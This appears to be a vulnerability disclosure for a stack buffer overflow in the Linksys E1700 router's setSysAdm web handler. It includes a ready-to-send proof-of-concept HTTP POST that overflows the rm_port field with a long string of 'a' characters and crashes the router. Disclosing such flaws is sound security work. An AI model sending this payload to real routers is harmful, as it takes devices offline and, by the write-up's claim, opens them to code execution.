

# Linksys Vulnerability

Vendor:Linksys

Product:E1700

Version:E1700(1.0.0.4.003)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `setSysAdm` function, `rm_port` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `rm_port` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `rm_port` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `rm_port` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/setSysAdm HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1949
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/admin/management.shtml;session_id=dq84xyz0Q3dnDLdCuSD3DDh5mrKqM0px
Cookie: FSSBBIl1UgzbN7N80T=10AvEXQLoH_LTmuvzkUgS7anfnAFAZXlQ.4PMSCFs3avj98CUbW5VYXmf4CkeSpLPaWxcQ000fJAH3_BOkD7VykscSuQJfxEIZbHIOwMJVLj9vWKrmgvvmPoa1KPJ3tYwIoQdq46yNEXN5dq7oZPOz5tTcDb4Nuw9qNaWSCoAnSAbounMM_u0bVaK.j00N.1T4u9XeFlZLMuY9MxXFOGPyvoHWdW0a6Bx7Mt86gLuuve7q.yaVnqOKvGvDgL3AzdKWNdO5YiPu_4RNlsYNe4m7bcnw6hDsdmjrfDZxwqCUN_8oA; FSSBBIl1UgzbN7N80S=.iPMLVrFLUcIxtwVKrClZYGZBzGzC149V9FiutQKysXJDYBDCqewOf5IavZkllZz; XSRF_TOKEN=1443376541; session_id=wxymTijRhkqwLcDL0EkyY62Yjw1n3Tkx
Upgrade-Insecure-Requests: 1

token=ijP4vXtaCTNsChzr1STV&remote_mgt_https=&remote_ip_range=0.0.0.0-0&alg=1%2C1%2C1%2C1%2C1%2C0%2C1%2C1%2C1%2C1%2C1%2C1&admuser=admin&admpass=_default-password_&confirmadmpass=_default-password_&AuthTimeout=600&wirelessMgmt_http=1&wirelessMgmt=1&rm_enable=0&alg_enable=0&upnp_enable=1&allow_user_conf=1&allow_user_disable_internet_access=0&rm_port=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


## Result

The target router crashes and cannot provide services correctly and persistently.
